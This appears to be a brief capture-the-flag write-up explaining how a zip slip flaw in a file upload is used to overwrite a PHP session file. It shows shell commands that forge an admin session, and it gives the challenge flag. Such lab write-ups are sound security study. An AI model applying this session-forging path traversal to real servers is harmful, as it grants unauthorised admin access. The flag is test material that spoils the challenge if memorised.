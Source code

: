 ```yaml
---
layout: default
title: sliping beauty
---
```




In this challange we exploit the zip slip, here you can read about it: [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).

We override the session file with admin privilege, and then we can see the flag, as wrote in the source code 
```bash
agonen@PC4:~$ php -a
Interactive shell

php > session_start();
php > echo session_id();
0tf30efgp62k6u1jm9lbmeckg7
php > $_SESSION['uid'] = 'admin';
php > echo session_encode();
uid|s:5:"admin";
php >
```

Now, all left is to create our payload:
`python3 sliping_beauty.py`, and then upload it to the server.

Lastly, let's change our session ID to the session id we achieve, for example:
`0tf30efgp62k6u1jm9lbmeckg791194204` (include the random chars).


![FLAG](./images/sliping%20beauty.png)

**Flag:** ***`FLAG{my_zip_is_sliping_beauty}`*** 

